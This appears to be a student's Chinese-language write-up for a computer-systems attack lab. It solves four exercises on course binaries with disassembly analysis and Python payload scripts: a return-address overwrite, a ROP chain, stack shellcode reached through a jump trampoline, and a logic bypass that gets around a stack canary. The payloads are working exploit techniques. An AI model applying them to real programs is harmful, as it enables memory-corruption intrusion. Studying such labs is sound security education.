




陈飞涵    
2024202845

# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
  通过分析 problem1 的反汇编代码，我发现了漏洞的位置。在 main 函数中（地址 401258），程序调用了 func 函数（地址 401232）。func 函数的部分汇编代码如下所示：
  ```asm
  40123a: 48 83 ec 20       sub    $0x20,%rsp
  ...
  401246: 48 8d 45 f8       lea    -0x8(%rbp),%rax
  ...
  401250: e8 5b fe ff ff    call   4010b0 <strcpy@plt>
  ```
  虽然栈空间分配了 0x20 (32字节)，但 strcpy 的目标地址位于 %rbp - 8。

  然后，我计算了偏移量。栈帧的布局如下：
  - Buffer: 从 %rbp - 8 开始。
  - Saved RBP: 位于 %rbp，占用 8 字节。
  -  Return Address: 位于 %rbp + 8，这是我要覆盖的目标。
  
  因此，要覆盖到返回地址，我需要填充的数据长度为：$$\text{Padding} = (\text{rbp} - (\text{rbp}-8)) + \text{sizeof(Saved RBP)}$$   $$\text{Padding} = 8 + 8 = 16 \text{ 字节}$$

  最后，我需要确定目标地址，我在反汇编中找到了 func1 函数，如下所示：
  ```asm
  0000000000401216 <func1>:
  401216: f3 0f 1e fa       endbr64
  ...
  401223: e8 98 fe ff ff    call   4010c0 <puts@plt>
  ```
  该函数会输出成功信息，其起始地址为 0x401216.

- **解决方案**：
  我的 Payload 的构造逻辑是16字节的垃圾数据 + func1的地址(0x401216)。使用 Python 脚本生成 ans1.txt。我的 Payload 如下所示：
  ```py
  import struct

    def main():
        # 构造 Padding
        padding = b'A' * 16

        # 构造目标地址
        target_addr_int = 0x401216
        target_addr = struct.pack('<Q', target_addr_int)

        # 组合 Payload
        payload = padding + target_addr

        # 写入文件
        with open("ans1.txt", "wb") as f:
            f.write(payload)

        print(f"Payload 已生成到 ans1.txt，总长度: {len(payload)} 字节")

    if __name__ == "__main__":
        main()
  ```
- **结果**：附上图片
  Payload 测试图片
  

### Problem 2:
- **分析**：
    首先，由题意知，本题开启了 NX 保护，这意味着栈上的数据不可执行，无法直接注入 Shellcode。必须使用 ROP 面向返回编程的技术，利用程序现有的代码片段来构造攻击链。
    接着就是去发现漏洞点。反汇编显示 func 函数 (0x401290) 调用了 memcpy，目标缓冲区位于 %rbp - 0x8。要覆盖返回地址，需要的填充长度为：8 (Buffer) + 8 (Saved RBP) = 16 字节。
    然而，目标函数 func2 (0x401216) 包含指令 cmpl $0x3f8, -0x4(%rbp)。这说明必须确保函数调用时，第一个参数的值等于 0x3f8 (也就是十进制的 1016)，否则无法输出成功提示。
    所以，我需要一个能修改 %rdi 寄存器的现有代码片段。我在反汇编中找到了辅助函数 pop_rdi (0x4012bb)，其中包含的指令序列如下所示：
    ```asm
    4012c7: 5f       pop    %rdi
    4012c8: c3       ret
    ```
    地址 0x4012c7 即为我需要利用的现有代码片段地址。
    所以，我最终的栈结构设计如下：
    - Padding (16 bytes): 覆盖栈空间至返回地址前。
    - Gadget Address (0x4012c7): 覆盖原返回地址，程序跳转至 pop rdi; ret。
    - Parameter (0x3f8): 放置在栈上，会被 pop %rdi 指令弹入 %rdi 寄存器。
    - Target Function (0x401216): pop 指令后的 ret 会将程序跳转至此，此时 %rdi 已被正确赋值，func2 顺利执行。
- **解决方案**：
    我使用 Python 脚本生成 Payload，利用 struct 库处理小端序地址。具体的 Payload 代码如下：
    ```py
    import struct

    def main():
        # Padding
        padding = b'A' * 16

        # Gadget 地址
        gadget_addr = struct.pack('<Q', 0x4012c7)

        # 参数值
        param_val = struct.pack('<Q', 0x3f8)

        # 目标函数地址
        func2_addr = struct.pack('<Q', 0x401216)

        # 组合 Payload
        payload = padding + gadget_addr + param_val + func2_addr

        with open("ans2.txt", "wb") as f:
            f.write(payload)

        print(f"Payload 已生成到 ans2.txt，总长度: {len(payload)} 字节")

    if __name__ == "__main__":
        main()
    ```
- **结果**：附上图片
  Payload 测试图片
  

### Problem 3: 
- **分析**：
  由题意知，本题没有像 Problem 2 一样开启 NX 保护，允许在栈上执行代码。通过分析本题的反汇编代码，我发现了栈溢出漏洞，漏洞函数 func (0x401355) 调用了 memcpy，将数据拷贝到 %rbp - 0x20 处的缓冲区。因为Buffer 的地址 为 %rbp - 0x20，Return Address: %rbp + 0x8，所以覆盖的偏移量为 32 (Buffer) + 8 (Saved RBP) = 40 字节。
  然后，我考虑了ASLR 绕过与动态跳转。系统开启了内核全局栈随机化 (ASLR)，导致栈地址在每次运行时都会变化，无法硬编码 Shellcode 的地址。然而，程序中存在一个特殊的辅助函数 jmp_xs (0x401334)。在 func 函数开头，程序将当前的栈指针 %rsp 保存到了全局变量 saved_rsp 中。而jmp_xs 的指令逻辑是取出 saved_rsp，加上 0x10，然后跳转过去。通过计算，我发现 saved_rsp + 0x10 恰好指向 Buffer 的起始位置 (%rbp - 0x20)。所以，我可以利用 jmp_xs 作为跳转跳板。这样的话，无论栈地址如何随机变化，程序都会精准跳转回缓冲区开头执行 Shellcode。
  最后，我进行了 Shellcode 的构造。目标是调用 func1 (0x401216)，反汇编显示 func1 检查 %edi 是否等于 0x72 ('r')，因此 Shellcode 需要执行以下的三条指令：
    ```asm
    mov $0x72, %rdi
    mov $0x401216, %rax
    call *%rax
    ```
  
- **解决方案**：
  同样地，我使用Python脚本生成 Payload，Payload 结构为 Shellcode + Padding + jmp_xs地址。具体的 Payload 代码如下：
    ```py
    import struct

    def main():
        # 构造 Shellcode 机器码
        shellcode = (
            b'\x48\xc7\xc7\x72\x00\x00\x00'  
            b'\x48\xc7\xc0\x16\x12\x40\x00'  
            b'\xff\xd0'                      
        )
    
        # 计算 Padding
        padding_len = 40 - len(shellcode)
        padding = b'A' * padding_len

        # 构造 Return Address
        jmp_xs_addr = struct.pack('<Q', 0x401334)

        # 组合 Payload
        payload = shellcode + padding + jmp_xs_addr

        with open("ans3.txt", "wb") as f:
            f.write(payload)

        print(f"Payload 已生成到 ans3.txt，总长度: {len(payload)} 字节")

    if __name__ == "__main__":
        main()
    ```
- **结果**：附上图片
  Payload 测试图片
  
  gdb 调试图片
  

### Problem 4: 
- **分析**：
  首先，通过反汇编 func 函数 (0x135d)，我看到了编译器插入的栈保护机制（Stack Canary），用于检测缓冲区溢出。在 func 函数较靠前的位置 (0x136c)，程序从 %fs:0x28 读取一个随机生成的 64 位数值（Canary），并将其存入当前栈帧的 %rbp-0x8 处。
  ```asm
  136c: 64 48 8b 04 25 28 00    mov    %fs:0x28,%rax
  1375: 48 89 45 f8             mov    %rax,-0x8(%rbp)
  ```
  在函数准备返回前 (0x140a)，程序从栈帧 %rbp-0x8 处取出数值，与 %fs:0x28 中的原值进行比较。
  ```asm
  140a: 48 8b 45 f8             mov    -0x8(%rbp),%rax
  140e: 64 48 2b 04 25 28 00    sub    %fs:0x28,%rax
  1417: 74 05                   je     141e <func+0xc1>
  1419: e8 b2 fc ff ff          call   10d0 <__stack_chk_fail@plt>
  ```
  如果发生了栈溢出，覆盖了返回地址之前的内存，Canary 的值必然会被破坏。此时比较结果不为 0，程序会调用 __stack_chk_fail 报错并终止，从而阻止攻击。因此，本题不能使用常规的覆盖返回地址的方法。
  
  那么，既然无法通过溢出攻击，我就需要寻找程序逻辑上的漏洞。在 func 函数中，输入参数被保存在 %rbp-0xc。而在地址 0x13df 处，有一条关键的比较指令，如下所示：
  ```asm
  13df: 83 7d f4 ff             cmpl   $0xffffffff,-0xc(%rbp)
  13e3: 74 11                   je     13f6 <func+0x99>
  ```
  这条指令检查变量 -0xc(%rbp),也就是我们的输入,是否等于 0xffffffff。如果相等，程序跳转到 0x13f6，随即调用 func1 (call 131c <func1>)。根据之前的题目经验以及 func1 调用 puts 的行为，我猜测 func1 即为通关函数。

- **解决方案**：
  由于 Canary 的存在，我不需要编写 Python 脚本去构造复杂的溢出 Payload。而是需要利用整数的表示特性。由于 32 位有符号整数 -1 的补码表示即为 0xffffffff。因此，只要在程序运行到最后一步要求输入时，输入 -1 即可满足 func 中的比较条件，从而触发跳转执行 func1。
  Payload (操作步骤)：
  1. 运行程序 ./problem4。
  2. 前两个问题随便输入字符串。
  3. 当程序要求输入最后一个数值时，直接输入 -1。
- **结果**：附上图片
  Payload 测试图片
  

## 思考与总结
通过 attacklab 实验，我感觉自己对计算机系统的底层逻辑有了更好的认识。从 Problem 1 最基础的覆盖返回地址，到 Problem 2 面对 NX 保护时重新学习 ROP 技术，利用现有的代码片段来进行攻击，再到 Problem 3 为了绕过 ASLR 随机化，学习如何利用程序自带的跳转逻辑做跳板......这一系列的挑战让我了解了攻击者是如何利用系统机制的微小缺陷来攻击一个程序的，也理解了 System V 调用约定中寄存器传参的重要性。

但最特别是 Problem 4 给我带来的很大启发。Canary 机制让我意识到单纯的暴力溢出并不是万能的。虽然不能硬攻，但通过耐心分析汇编代码，我发现了利用 -1 的补码特性可以绕过逻辑漏洞。这让我明白了安全不仅仅是防范内存破坏，代码逻辑的严密性同样至关重要。

总的来说，这次实验让我明白了防范栈溢出攻击的重要性，以后写代码时我会更加注意边界检查和类型安全。


## 参考资料
1. 深入理解计算机系统（原书第3版）. 第3章：程序的机器级表示. 机械工业出版社, 2016.
2. CSAPP | Lab3-Attack Lab 深入解析. 知乎, 2023. https://zhuanlan.zhihu.com/p/476396465